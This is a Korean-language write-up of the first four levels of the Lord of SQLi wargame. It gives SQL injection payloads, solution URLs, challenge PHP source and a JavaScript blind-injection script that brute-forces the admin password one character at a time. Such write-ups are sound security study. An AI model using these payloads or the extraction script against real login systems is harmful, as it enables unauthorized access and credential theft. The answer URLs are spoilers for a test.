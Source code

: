 1-gremlin
====
* 기초적인 sql injection 구문
    * 목적: select id from prob_gremlin where id='admin' and pw=''or''=''을 구현하자
* id: admin
* pw: 'or''='
* 답: https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=admin&pw=%27or%27%27=%27

2-cobolt
====
* admin'#을 전달해주면, pw를 고려하지 않아도 된다.
* md5로 암호화를 고려하고 싶지 않다.
* 답: https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%23

3-cobolt
====
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
* ?no=1이면 guest가 출력된다.
    * guest의 no가 1이고, admin의 no가 2인가 하는 합리적 의심을 해볼 수 있다.
* query에 quote 류가 있으면 안된다. 
    * no를 조작해 보자. admin의 no가2이면, guest를 제외하고 admin만 뽑으려면 no=11 or no=2와 같이 admin만 뽑는 queryt넣어주면 된다.
* query는 no=1 or no=2 이다.
* 답: https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=11%20or%20no=2

4-orc
====
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
* pw에서, 'or''='를 넣으면 hello admin이 출력되지만, 문제는 풀리지 않는다.
    * 그 이유는, addslashes filter때문
    ```php
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    ```
    * addslashes후 실제 pw와 비교하기 때문에, 직접 password를 추측해야할듯 하다.
* lengthof()함수를 사용할 수 있기 때문에, 먼저 password의 길이를 추측해보았다.
    ```query
    ?pw='or id='admin' and length(pw)=8 # 
    ```
    * 다행히 pw가 길이가 8이다.
* 하나하나 넣어볼 수 있을듯 하다.
    * ascii의 범위를 48~123(숫자, 영어 대소문자 포함)로 하고
    * 다음의 코드를 chrome snippet에서 돌렸다.
        ```js
        {
            function genArray(start, end) {
              let a=[];
              let i;
              for (i=start; i <= end; ++i) {
                  a.push(i);
              }
              return a;
            }
            let chars=genArray(48, 123); // [0~9, A~Z, a~z] 포함
            const url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php';
            let i;
            for (i=1;i<=8;i++) {
              chars.forEach((charac) => {
                fetch(`${url}?pw=%27%20or%20id=%27admin%27%20and%20ascii(substr(pw,${i},${i}))=${charac}%20%23`)
                  .then((res) => res.text())
                  .then((res) =>{
                    if(res.includes('<h2>Hello admin</h2>')) {
                      console.log(i, charac, String.fromCharCode(charac));
                    }
                  });
              });   
            }
        }
        ```
* 결과: 095a9852
* 답: https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=095a9852